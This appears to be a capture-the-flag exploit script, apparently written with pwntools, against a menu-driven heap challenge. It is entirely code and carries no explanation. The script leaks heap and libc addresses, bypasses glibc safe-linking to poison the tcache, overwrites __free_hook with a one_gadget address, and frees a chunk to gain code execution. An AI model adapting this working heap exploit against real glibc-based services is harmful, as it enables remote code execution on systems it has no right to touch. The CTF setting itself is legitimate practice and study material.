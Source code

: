 ```plain
def add(idx,size):
    sla('>',str(1))
    sla('Index: ',str(idx))
    sla('Size: ',str(size))


def delete(idx):
    sla('>',str(2))
    sla('Index: ',str(idx))

def show(idx):
    sla('>',str(4))
    sla('Index: ',str(idx))

def edit(idx,content):
    sla('>',str(3))
    sla('Index: ',str(idx))
    sa('Content: ',content)


def duan():
    gdb.attach(p)
    pause()


for i in range(7):
    add(i,0x80)

add(7,0x80)
add(8,0x80)

delete(0)
show(0)

heap_addr=u64(p.recv(5)[-6:].ljust(8,'\x00'))<<12
leak('heap_addr ',heap_addr)

for i in range(1,7):
    delete(i)

delete(7)

edit(7,'\x11')
show(7)
libc_base=u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))-0x1e3c11
leak('libc_base ',libc_base)

free_hook=libc_base+libc.sym['__free_hook']
leak('free_hook',free_hook)
system=libc_base+libc.sym["system"]
ogs=[0xdf54c,0xdf54f,0xdf552] 
og=libc_base+ogs[1]
leak('og',og)

pl=(heap_addr>>12)^(free_hook)
edit(6,p64(pl))

add(9,0x80)
add(10,0x80)
edit(10,p64(og))
delete(0)


```